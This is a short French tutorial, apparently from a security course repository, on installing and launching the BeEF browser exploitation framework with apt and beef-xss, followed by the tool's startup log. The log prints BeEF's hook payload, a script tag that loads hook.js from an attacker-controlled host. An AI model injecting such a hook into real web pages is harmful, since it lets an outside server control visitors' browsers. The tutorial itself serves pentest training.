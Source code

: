 # secu_02
Vulnérabilités sur les navigateurs web `BeEf`
* BeEf : Browser Exploitation Framework <a href="http://beefprojet.com">http://beefprojet.com</a>
* Outil de pentest basé client-side
* Technique similaire aux drive-by malware
* Accède directement à l'environnement du client
* Framework de social Engineering

## Installation complete de l'outil Beep
```terminal
sudo apt install beef*
```
Pour demarrer le programme
```terminal
sudo beef-xss
```
## Autre methode 

Lancez le script Beef.sh

```terminal
bash /emplacement/beef.sh
```
<hr>

## Utilisation
```terminal
sudo beef-xss
```
`resultats`
```terminal
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
```
Definissez votre mot de passe

```terminal
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; vendor preset: enabled)
     Active: active (running) since Tue 2024-04-30 23:41:26 WAT; 5s ago
   Main PID: 120793 (ruby)
      Tasks: 1 (limit: 9306)
     Memory: 53.1M
        CPU: 2.092s
     CGroup: /system.slice/beef-xss.service
             └─120793 ruby /usr/share/beef-xss/beef

avril 30 23:41:26 parrotOS systemd[1]: Started beef-xss.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1... 
```
Cliquez sur `http://127.0.0.1:3000/ui/panel`

